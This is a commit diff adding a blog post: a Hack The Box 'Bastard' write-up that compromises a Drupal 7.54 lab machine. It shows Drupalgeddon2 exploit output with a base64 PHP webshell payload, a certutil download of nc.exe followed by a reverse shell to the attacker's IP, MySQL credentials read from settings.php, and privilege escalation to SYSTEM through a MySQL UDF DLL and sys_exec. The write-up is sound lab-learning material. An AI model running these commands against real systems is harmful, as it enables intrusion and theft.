

Before and after one commit to rizemon/rizemon.github.io, a Jekyll site: the page built from _posts/2021-01-12-optimum-htb.markdown, in a window 1280 px wide and 900 px high, scrolled down 6673 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Added Bastard

````diff
--- /dev/null
+++ b/_posts/2021-01-12-bastard-htb.markdown
@@ -0,0 +1,413 @@
+---
+title: Hack The Box - Bastard (Without Metasploit)
+date: 2021-01-12 23:08:00 +0800
+categories: [hackthebox]
+tags: [windows, drupal, mysql]
+---
+
+![](/assets/images/bastard.png){:height="414px" width="615px"}
+
+# Configuration
+
+The operating system that I will be using to tackle this machine is a Kali Linux VM.
+
+What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.
+
+```bash
+$ echo "10.10.10.9 bastard.htb" | sudo tee -a /etc/hosts
+```
+
+# Reconnaissance
+
+To speed up my recon, I've moved to [`rustscan`](https://github.com/RustScan/RustScan). I've also created 2 "aliases" called `superscan` and `resolve`.
+
+```bash
+$ which resolve
+resolve () {
+        cat /etc/hosts | grep --color=auto "$1" | cut -d " " -f 1
+}
+
+$ which superscan
+superscan () {
+        name="$(resolve $1)"
+        rustscan --accessible -a "$name" -r 1-65535 -- -sT -sV -sC -Pn
+}
+
+$ superscan bastard.htb
+File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
+Open 10.10.10.9:80
+Open 10.10.10.9:135
+Open 10.10.10.9:49154
+Starting Script(s)
+Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
+
+Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-12 12:54 UTC
+NSE: Loaded 151 scripts for scanning.
+NSE: Script Pre-scanning.
+NSE: Starting runlevel 1 (of 3) scan.
+Initiating NSE at 12:54
+Completed NSE at 12:54, 0.00s elapsed
+NSE: Starting runlevel 2 (of 3) scan.
+Initiating NSE at 12:54
+Completed NSE at 12:54, 0.00s elapsed
+NSE: Starting runlevel 3 (of 3) scan.
+Initiating NSE at 12:54
+Completed NSE at 12:54, 0.00s elapsed
+Initiating Parallel DNS resolution of 1 host. at 12:54
+Completed Parallel DNS resolution of 1 host. at 12:54, 0.20s elapsed
+DNS resolution of 1 IPs took 0.20s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
+Initiating Connect Scan at 12:54
+Scanning 10.10.10.9 [3 ports]
+Discovered open port 49154/tcp on 10.10.10.9
+Discovered open port 80/tcp on 10.10.10.9
+Discovered open port 135/tcp on 10.10.10.9
+Completed Connect Scan at 12:54, 0.01s elapsed (3 total ports)
+Initiating Service scan at 12:54
+Scanning 3 services on 10.10.10.9
+Completed Service scan at 12:55, 53.72s elapsed (3 services on 1 host)
+NSE: Script scanning 10.10.10.9.
+NSE: Starting runlevel 1 (of 3) scan.
+Initiating NSE at 12:55
+Completed NSE at 12:55, 6.27s elapsed
+NSE: Starting runlevel 2 (of 3) scan.
+Initiating NSE at 12:55
+Completed NSE at 12:55, 2.41s elapsed
+NSE: Starting runlevel 3 (of 3) scan.
+Initiating NSE at 12:55
+Completed NSE at 12:55, 0.00s elapsed
+Nmap scan report for 10.10.10.9
+Host is up, received user-set (0.011s latency).
+Scanned at 2021-01-12 12:54:56 UTC for 63s
+
+PORT      STATE SERVICE REASON  VERSION
+80/tcp    open  http    syn-ack Microsoft IIS httpd 7.5
+|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
+|_http-generator: Drupal 7 (http://drupal.org)
+| http-methods:
+|   Supported Methods: OPTIONS TRACE GET HEAD POST
+|_  Potentially risky methods: TRACE
+| http-robots.txt: 36 disallowed entries
+| /includes/ /misc/ /modules/ /profiles/ /scripts/
+| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
+| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
+| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php
+| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/
+| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
+| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/
+|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
+|_http-server-header: Microsoft-IIS/7.5
+|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
+135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
+49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
+Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
+
+NSE: Script Post-scanning.
+NSE: Starting runlevel 1 (of 3) scan.
+Initiating NSE at 12:55
+Completed NSE at 12:55, 0.00s elapsed
+NSE: Starting runlevel 2 (of 3) scan.
+Initiating NSE at 12:55
+Completed NSE at 12:55, 0.00s elapsed
+NSE: Starting runlevel 3 (of 3) scan.
+Initiating NSE at 12:55
+Completed NSE at 12:55, 0.00s elapsed
+Read data files from: /usr/bin/../share/nmap
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 63.07 seconds
+```
+
+# Enumeration (1)
+
+## Port 80 `Microsoft IIS httpd 7.5`
+
+![](/assets/images/bastard1.png)
+
+We see that the web server is running `Drupal`. Out of the files that `nmap` identified from `robots.txt`, the `CHANGELOG.txt` tells us about the version of `Drupal` that is installed.
+
+```bash
+$ curl http://bastard.htb/CHANGELOG.txt
+Drupal 7.54, 2017-02-01
+...
+```
+
+This version of `Drupal` can be exploited by `Drupalgeddon 2`, and an exploit script can be found [here](https://github.com/dreadlocked/Drupalgeddon2) on Github.
+
+```bash
+$ git clone https://github.com/dreadlocked/Drupalgeddon2
+```
+
+This script depends on a ruby module called `highline`, so lets install it.
+
+```bah
+$ sudo gem install highline
+```
+
+# Exploitation (1)
+
+```bash
+$ ruby drupalgeddon2.rb http://bastard.htb
+[*] --==[::#Drupalggedon2::]==--
+--------------------------------------------------------------------------------
+[i] Target : http://bastard.htb/
+--------------------------------------------------------------------------------
+[+] Found  : http://bastard.htb/CHANGELOG.txt    (HTTP Response: 200)
+[+] Drupal!: v7.54
+--------------------------------------------------------------------------------
+[*] Testing: Form   (user/password)
+[+] Result : Form valid
+- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
+[*] Testing: Clean URLs
+[+] Result : Clean URLs enabled
+--------------------------------------------------------------------------------
+[*] Testing: Code Execution   (Method: name)
+[i] Payload: echo KNYMIYXL
+[+] Result : KNYMIYXL
+[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
+--------------------------------------------------------------------------------
+[*] Testing: Existing file   (http://bastard.htb/shell.php)
+[i] Response: HTTP 404 // Size: 12
+- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
+[*] Testing: Writing To Web Root   (./)
+[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
+[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
+- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
+[*] Testing: Existing file   (http://bastard.htb/sites/default/shell.php)
+[i] Response: HTTP 404 // Size: 12
+- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
+[*] Testing: Writing To Web Root   (sites/default/)
+[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
+[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
+- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
+[*] Testing: Existing file   (http://bastard.htb/sites/default/files/shell.php)
+[i] Response: HTTP 404 // Size: 12
+- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
+[*] Testing: Writing To Web Root   (sites/default/files/)
+[*] Moving : ./sites/default/files/.htaccess
+[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
+[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
+[!] FAILED : Couldn't find a writeable web path
+--------------------------------------------------------------------------------
+[*] Dropping back to direct OS commands
+drupalgeddon2>> whoami
+nt authority\iusr
+```
+
+The exploit attempts to write a webshell to various locations but was unable to do so, so it fellback to just running commands instead. Before enumerating further, lets get a more interactive shell.
+
+We started our `nc` listener and we will upload a `nc.exe` to the machine and execute it to connect back to us.
+
+```
+drupalgeddon2>> mkdir C:\temp
+
+drupalgeddon2>>  certutil -f -split -urlcache http://10.10.XX.XX/nc.exe C:\temp\nc.exe
+****  Online  ****
+  0000  ...
+  e800
+CertUtil: -URLCache command completed successfully.
+drupalgeddon2>> C:\temp\nc.exe -e cmd.exe 10.10.XX.XX 1337
+```
+
+On our listener, we get our interactive shell.
+
+```bash
+$ rlwrap nc -lvnp 1337
+listening on [any] 1337 ...
+connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.9] 49251
+Microsoft Windows [Version 6.1.7600]
+Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
+
+C:\inetpub\drupal-7.54>
+```
+
+# user.txt
+
+The user flag is located in `dimitris`' Desktop.
+
+```
+C:\Users\dimitris\Desktop> type user.txt
+ba22XXXXXXXXXXXXXXXXXXXXXXXXXXXX
+```
+
+# Enumeration (2)
+
+When we list the processes that are running, we see that `mysqld.exe` is running.
+
+```
+C:\Users\dimitris\Desktop> tasklist
+Image Name                     PID Session Name        Session#    Mem Usage
+========================= ======== ================ =========== ============
+...
+mysqld.exe                    1064                            0     38.056 K
+...
+```
+
+We can also see that it is running on port `3306`.
+```
+C:\Users\dimitris\Desktop> netstat -ano
+
+Active Connections
+
+  Proto  Local Address          Foreign Address        State           PID
+  ...
+  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1064
+  ...
+```
+
+Lets see if we can find any `MySQL` credentials lying around. `Drupal`'s config is the first place we should check.
+
+```
+C:\inetpub\drupal-7.54\sites\default>type settings.php
+...
+$databases = array (
+  'default' =>
+  array (
+    'default' =>
+    array (
+      'database' => 'drupal',
+      'username' => 'root',
+      'password' => 'mysql123!root',
+      'host' => 'localhost',
+      'port' => '',
+      'driver' => 'mysql',
+      'prefix' => '',
+    ),
+  ),
+);
+...
+```
+
+Nice, we got the `root` credentials! Now to access the database, we could run the `MySQL` client that is installed on the machine but it will bug out our shell so lets do some port forwarding with `plink.exe` so that we can connect from our attacker machine instead.
+
+First lets setup our `OpenSSH` server. As HackTheBox has disabled outgoing connections from the machines via port `22`, we will need to configure our `SSH` server to run on another port and start it.
+
+```bash
+$ cat /etc/ssh/sshd_config
+...
+Port 2222
+...
+$ sudo systemctl start ssh
+```
+
+Now we need to upload `plink.exe` to the machine which you can get from `/usr/share/windows-resources/binaries/`.
+
+```
+C:\inetpub\drupal-7.54> certutil -f -split -urlcache http://10.10.XX.XX/plink.exe C:\temp\plink.exe
+****  Online  ****
+  000000  ...
+  04c000
+CertUtil: -URLCache command completed successfully.
+```
+
+And then proceed to portforward.
+
+```
+C:\inetpub\drupal-7.54> C:\temp\plink.exe -l kali -pw kali 10.10.XX.XX -R 3306:127.0.0.1:3306 -P 2222
+```
+
+Now if we check the open ports on our attacker machine, we should see the port `3306`.
+
+```bash
+$ netstat -peanut
+(Not all processes could be identified, non-owned process info
+ will not be shown, you would have to be root to see it all.)
+Active Internet connections (servers and established)
+Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
+...
+tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1000       526480     -
+...
+```
+
+Now let's try accessing the `MySQL` server with the credentials that we found.
+
+```bash
+$ mysql -uroot -p -h 127.0.0.1 -pmysql123\!root
+MySQL [(none)]> select @@version;
++-----------+
+| @@version |
++-----------+
+| 5.5.45    |
++-----------+
+```
+
+# Exploitation (2)
+
+As `root`, we can write to files and load arbitrary plugins. We can use this to create a `sys_exec` function that will run any commands as the user that `MySQL` is running as.  But first, we will need to figure out what architecture the OS is in as well as figure out where the plugins are stored.
+
+```bash
+MySQL [(none)]> select@@version_compile_os, @@version_compile_machine;
++----------------------+---------------------------+
+| @@version_compile_os | @@version_compile_machine |
++----------------------+---------------------------+
+| Win64                | x86                       |
++----------------------+---------------------------+
+
+MySQL [(none)]> select@@plugin_dir ;
++-----------------------------------------------------+
+| @@plugin_dir                                        |
++-----------------------------------------------------+
+| C:\Program Files\MySQL\MySQL Server 5.5\lib\plugin\ |
++-----------------------------------------------------+
+```
+
+We will need to get a copy of `lib_mysqludf_sys_64.dll` which you can get from `/usr/share/metasploit-framework/data/exploits/mysql/`. We will then share it over `SMB` using `smbserver.py` from `impacket`.
+
+```bash
+$ mkdir udf
+$ cd udf
+$ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll .
+$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
+[sudo] password for kali:
+Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
+
+[*] Config file parsed
+[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
+[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
+[*] Config file parsed
+[*] Config file parsed
+[*] Config file parsed
+```
+
+Then we just execute the following commands on `MySQL` to load the plugin.
+
+```bash
+MySQL [(none)]> select load_file('\\\\10.10.XX.XX\\kali\\lib_mysqludf_sys_64.dll') into dumpfile "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll";
+MySQL [(none)]> create function sys_exec returns int soname 'udf.dll';
+```
+
+Now, we can run any commands using `sys_exec`. We start our `nc` listener:
+
+```bash
+$ nc -lvnp 1337
+listening on [any] 1337 ...
+```
+
+And run the following on `MySQL` to connect back to us.
+
+```bash
+MySQL [(none)]> select sys_exec("C:\\temp\\nc.exe -e cmd.exe 10.10.XX.XX 1337");
+```
+
+We then get a shell as `SYSTEM` on our listener!
+
+```bash
+$ rlwrap nc -lvnp 1337
+listening on [any] 1337 ...
+connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.9] 49271
+Microsoft Windows [Version 6.1.7600]
+Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
+
+C:\ProgramData\MySQL\MySQL Server 5.5\Data> whoami
+nt authority\system
+```
+
+# root.txt
+
+The root flag was located in `Administrator`'s Desktop.
+
+```
+C:\Users\Administrator\Desktop>type root.txt.txt
+4bf1XXXXXXXXXXXXXXXXXXXXXXXXXXXX
+```
+
+
+### Rooted ! Thank you for reading and look forward for more writeups and articles !
--- a/_posts/2021-01-12-optimum-htb.markdown
+++ b/_posts/2021-01-12-optimum-htb.markdown
@@ -1,6 +1,6 @@
 ---
 title: Hack The Box - Optimum (Without Metasploit)
-date: 2021-01-12 18:19:00 +0800
+date: 2021-01-12 20:40:00 +0800
 categories: [hackthebox]
 tags: [windows, hfs]
 ---
````
Also changed, not shown: assets/images/bastard.png (added), assets/images/bastard1.png (added).
